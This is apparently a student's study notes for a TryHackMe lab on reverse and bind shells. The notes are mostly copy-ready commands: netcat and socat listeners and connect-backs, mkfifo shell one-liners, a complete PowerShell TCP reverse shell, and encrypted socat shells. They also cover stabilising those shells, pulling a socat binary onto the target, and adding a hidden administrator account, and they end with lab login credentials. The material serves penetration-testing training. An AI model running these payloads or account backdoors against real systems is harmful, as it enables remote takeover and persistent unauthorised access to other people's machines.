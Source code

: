 # What the Shell?

[What the Shell? Room](https://tryhackme.com/room/introtoshells)

An introduction to sending and receiving (reverse/bind) shells when exploiting target machines.

## Tools

- Netcat
- Socat
- Metasploit -- multi/handler
- Msfvenom
- [Reverse Shell Generator](https://www.revshells.com/)
- [revshellgen](https://github.com/t0thkr1s/revshellgen)
- `/usr/share/webshells`

### Reverse Shells

```bash
nc -lvnp <port-number>
```

```bash
socat TCP-L:<port> -
```

Be aware that if you choose to use a port below 1024, you will need to use `sudo` when starting your listener. That said, it's often a good idea to use a well-known port number (`80`, `443` or `53` being good choices) as this is more likely to get past outbound firewall rules on the target.

To connect back:

- On Windows:

```cmd
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

- On Linux:

```bash
nc <target-ip> <chosen-port>
```

```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


### Bind Shells

```bash
nc -lvnp <PORT> -e /bin/bash
```

- On Linux:

```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```

- On Windows:

```cmd
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

We use the `pipes` argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

To connect:

```bash
nc <LOCAL-IP> <LOCAL-PORT>
```

```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

## Netcat Shell Stabilisation

- `python` for linux
    1. `python -c 'import pty;pty.spawn("/bin/bash")'` - Note: some targets may need the version of Python specified. If this is the case, replace `python` with `python2` or `python3` as required.
    2. `export TERM=xterm` - this will give us access to term commands such as `clear`.
    3. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

Note: if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

- `rlwrap` for windows
    - `sudo apt install rlwrap`
    - `rlwrap nc -lvnp <port>`

Note: when dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

- `socat` for linux
    - Transfer a socat static compiled binary up to the target machine. `sudo python3 -m http.server 80`, then, on the target machine, `wget <LOCAL-IP>/socat -O /tmp/socat`.

 If you want to use something like a text editor which overwrites everything on the screen.

Open another terminal and run:

 ```bash
stty -a
 ```

 In your reverse/bind shell, type in:

 ```bash
stty rows <number>
stty cols <number>
 ```

### Fully stable Linux tty reverse shell (Only for Linux):

Here is the new listener syntax:

```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

The special command is as follows:

```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

[Precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

- `pty`, allocates a pseudoterminal on the target -- part of the stabilisation process
- `stderr`, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- `sigint`, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- `setsid`, creates the process in a new session
- `sane`, stabilises the terminal, attempting to "normalise" it.

## Socat Encrypted Shells

Generate a cert:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```

### Reverse shell

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Note: that the certificate must be used on whichever device is listening.

To connect back:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Bind shell

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

## Common Shell Payloads

Bind:

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Reverse:

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Powershell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Next Step

For Windows only:

```cmd
net user <username> <password> /add
```

```cmd
net localgroup administrators <username> /add
```

## Practice and Examples

| Title | IP Address | Username | Password |
| :---- | :---- | :---- | :---- |
| Linux Shell Practice | 10.10.131.227 | shell | TryH4ckM3! |
| | | Administrator | TryH4ckM3! |



